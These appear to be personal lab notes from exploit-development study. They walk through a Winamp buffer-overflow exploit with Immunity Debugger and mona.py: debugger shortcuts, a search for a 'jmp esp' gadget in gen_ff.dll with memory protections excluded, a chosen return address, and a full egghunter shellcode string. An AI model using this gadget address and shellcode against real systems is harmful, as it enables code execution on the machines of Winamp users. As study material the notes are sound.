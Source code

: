 immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3`
* run program in debugger!
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* `!mona egg -wow64 -winver10`

from egghunter.txt:
```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
